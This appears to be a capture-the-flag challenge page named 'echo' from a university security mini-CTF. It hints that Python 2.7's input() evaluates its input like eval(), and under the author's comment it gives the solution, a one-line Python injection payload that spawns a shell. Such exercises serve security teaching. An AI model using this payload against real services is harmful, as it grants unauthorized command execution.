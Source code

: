 # echo

by HyeokJu Gwon

## Description

### Description

* No Description

### Notices

* No Notices

### Hints

#### 1st Hint

python `eval()` == python 2.7 `input()`

### Files

* [echo.py](https://github.com/ajou-whois/1st-cyber-security-mini-ctf/blob/master/challenges/echo/echo.py)

## Author's Comment

* __import__('os').system('/bin/sh')

## ETC
